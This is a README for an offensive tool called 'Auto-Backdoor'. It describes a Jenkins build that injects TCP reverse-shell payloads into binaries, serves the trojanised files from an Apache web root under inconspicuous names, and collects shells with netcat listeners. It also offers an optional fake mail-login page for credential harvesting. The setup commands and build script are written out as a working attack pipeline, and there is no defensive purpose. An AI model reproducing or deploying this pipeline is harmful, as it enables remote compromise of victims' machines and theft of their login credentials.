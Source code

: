 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`

Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`

Jenkins configuration:
	Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, edit	###NEED TO FIND CONFIG LOCATION###)
	Need to edit the following in jenkins:
		1: Make it a pramatrised build with the following
			1: dir
			2: Payload_Type
			3: port		(Note: For shell call back)
			4: IP		(Note: For shell call back)	
			5: binName
		2: Check allow simotaius builds
		3: Set allow remote triggred with a token
		4: Build shell with following:

```
rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging
```

PHP Configuration:
	I use apache2 with PHP5
	`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
	move the put.php into /var/www/html/ and change the name to something that would not be susspisus
	if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
		edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
